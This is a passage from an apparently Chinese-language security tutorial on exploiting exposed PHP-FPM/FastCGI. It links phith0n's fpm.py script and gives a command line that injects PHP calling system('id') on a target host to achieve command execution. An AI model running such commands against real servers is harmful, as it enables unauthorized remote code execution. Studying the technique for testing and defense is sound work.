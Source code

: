 [![](assets/1698897074-2776fc88d5399c1969fc6e97353c9f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134736-8e1130a0-b2e5-1.png)

### 利用 phith0n 大神的 fpm.py

-   项目地址：[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

> “兼容Python2和Python3，方便在内网用。之前好些人总是拿着一个GO写的工具在用，又不太好用。实际上理解了fastcgi协议，再看看这个源码，就很简单了。“
> 
> ​ —— phith0n

利用方式：

```plain
python fpm.py 192.168.43.82 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
```

如下图所示，成功执行系统命令，利用成功：
